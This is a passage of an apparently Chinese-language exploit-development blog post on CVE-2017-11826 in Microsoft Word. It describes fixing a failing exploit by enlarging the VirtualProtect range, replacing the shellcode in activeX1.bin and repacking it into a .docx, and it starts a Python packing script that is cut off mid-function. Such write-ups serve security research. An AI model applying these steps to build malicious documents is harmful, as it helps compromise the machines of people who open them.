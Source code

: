 执行后会跳转到`0x08888f70`执行shellcode：

![image-20210804104652987](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/image/image-20210804104652987.png)

然而VirtualProtect的修改的内存范围只有`0x08888c90 - 0x08888e91`，而shellcode却位于`0x08888f70`，因此会触发c0000005访问异常，shellcode执行失败：

![image-20210804105857160](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/image/image-20210804105857160.png)

## 利用改造

activeX1.bin文件中布局如下：

![image-20210804115244951](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/image/image-20210804115244951.png)

由于原本VirtualProtect修改的范围为0x201不够，因此修改为0x1000确保能够覆盖shellcode，随后将shellcode替换为自己的shellcode即可。

将修改好的activeX1.bin文件替换到rtfobj.py提取出来进行堆喷的文档中，并修改为.docx，脚本参考[Exploiting Word: CVE-2017-11826](https://www.tarlogic.com/blog/exploiting-word-cve-2017-11826/)一文，替换脚本如下：

```python
import os
import shutil
import zipfile

template_path = ""
final_docx_name = ""
activeX_bin_path = ""

def pack_file_to_open_xml_docx(template_path, final_docx_name, activeX_bin_path): 
    if not os.path.exists(template_path) or not os.path.exists(activeX_bin_path):
        print("Template docx file or activeX.bin file not exist.")
        return

    with open(activeX_bin_path, "rb") as f_: 
        object_bin_data = f_.read()

```